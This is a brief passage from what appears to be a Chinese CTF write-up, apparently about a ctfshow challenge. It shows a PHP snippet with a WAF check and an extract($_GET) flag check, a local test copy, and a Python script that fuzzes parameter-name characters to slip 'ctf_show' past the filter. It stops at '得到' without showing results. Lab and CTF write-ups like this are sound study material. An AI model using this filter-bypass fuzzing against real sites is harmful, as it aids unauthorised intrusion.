 ```php
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}
```

fuzz:

1.php

```php
<?php
$a = $_SERVER['QUERY_STRING']; 
#var_dump($a);
extract($_GET); 
if($ctf_show==='ilove36d'){
    echo "flagggg";
}
```

python:

```python
import requests
import urllib.parse

url = "http://127.0.0.1/1/1.php"

for i in range(0,125):
    # print(i)
    i = chr(i)
    p = "ctf"+i+"show"
    # p = urllib.parse.quote(p)
    param = {
        p:"ilove36d"
    }
    reponse = requests.get(url=url,params=param)
    page = (reponse.text)
    if "flaggg" in page:
        print(i)
        print(page)
        print("------------------")
```

得到
